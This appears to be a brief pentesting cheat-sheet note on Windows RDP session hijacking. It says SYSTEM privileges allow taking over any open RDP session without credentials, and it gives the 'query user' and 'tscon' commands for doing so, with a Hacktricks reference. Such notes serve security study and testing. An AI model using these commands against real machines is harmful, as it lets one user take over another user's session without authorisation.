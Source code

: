 # Living off the Land

## Conditions

TODO: Fill the rest of conditions

- With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.

## Session Stealing

- List active user sessions

`C:\> query user`

- Steal user session to authenticate the machine remotely

`C:\> tscon <id> /dest:<session_name>`

---
## References

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)